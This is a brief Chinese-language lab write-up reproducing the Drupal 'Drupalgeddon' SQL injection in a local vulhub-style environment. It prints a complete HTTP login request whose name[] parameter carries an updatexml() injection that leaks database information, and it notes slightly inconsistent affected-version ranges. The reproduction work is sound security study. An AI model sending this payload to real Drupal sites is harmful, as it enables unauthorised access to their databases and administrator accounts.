 # Drupal < 7.32 “Drupalgeddon” SQL注入漏洞

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->信息被爆出

### 0x01漏洞介绍

​			Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

##### 影响版本

```
Drupal < 7.31
```

### 0x02漏洞复现

#### payload：

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

​			**环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。**

**其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`**

​				![Drupal_Drupalgeddon_SQL注入漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Drupal_Drupalgeddon_SQL注入漏洞_1.jpg)

​			**默认页面**

![Drupal_Drupalgeddon_SQL注入漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Drupal_Drupalgeddon_SQL注入漏洞_2.jpg)

​			**抓包改包，发现信息被爆出**

![Drupal_Drupalgeddon_SQL注入漏洞_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Drupal_Drupalgeddon_SQL注入漏洞_3.jpg)



### 





